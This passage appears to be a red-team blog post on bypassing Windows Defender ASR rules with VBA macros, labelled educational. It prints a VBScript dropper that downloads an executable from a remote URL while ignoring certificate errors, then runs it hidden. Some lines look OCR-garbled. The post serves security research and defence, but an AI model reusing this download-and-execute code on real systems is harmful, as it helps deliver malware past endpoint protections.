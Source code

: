 ```yaml
---
layout: post
title: "Bypassing Attack Surface Reduction (ASR) Rules with VBA Macros Part 2"
date: 2025-08-26
categories: [Red Team,Macro,Malware Analysis,Malware Development,Blue Team,VBA,Cyber Security]
image: https://cdn-images-1.medium.com/max/800/1*15gFAZAWtcufSSqBVCBpCg.jpeg
---
```


We covered the definition of ASR and some tips for avoiding it in Part 1; review it before we begin.

#### Disclaimer:

This article is for educational purposes only. The techniques discussed are intended for understanding security controls and enhancing defensive strategies.

The techniques is inspired by the methods described in [Sévagas’ ASR bypass research.](https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf)

### Why ASR Didn’t Trigger Against Classic VB Droppers

In theory, the ASR rule `D3E037E1-3EB8-44C8-A917-57927947596D` ("Block JavaScript or VBScript from launching downloaded executable content") is meant to prevent VBScript or JavaScript files from launching executables that were downloaded from the Internet.

Classic VBScript Dropper:

```
'Download and execute putty
Private Sub DownloadAndExecute()
  myURL="https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe"
  downloadPath = "yop.exe"
  downloadPath = wshshell. ExpandEnvironmentStrings ("TEMP") & "\" & downloadPath
  Set WinHttpReq
  CreateObject("MSXML2.ServerXMLHTTP.6.0")
  WinHttpReq.setOption (2) = 13056 Ignore cert errors
  WinHttpReq.Open "GET", myURL, False ', "username", "password"
  If WinHttpReq.Status = 200 Then
    Set oStream = CreateObject("ADODB.Stream")
    oStream.Open
    oStream.Type 1
    oStream.Write WinHttpReq.ResponseBody
    oStream.SaveToFile downloadPath, 2
    oStream.Close
    CreateObject("WScript.Shell").Run downloadPath, 0
  End If
End Sub 
```

However, during testing with a classic VBScript dropper that downloaded and executed a remote executable (such as `putty.exe`), ASR was **not** triggered. Instead, **Windows Defender and AMSI** blocked the script. This happened because Windows Defender detects both:
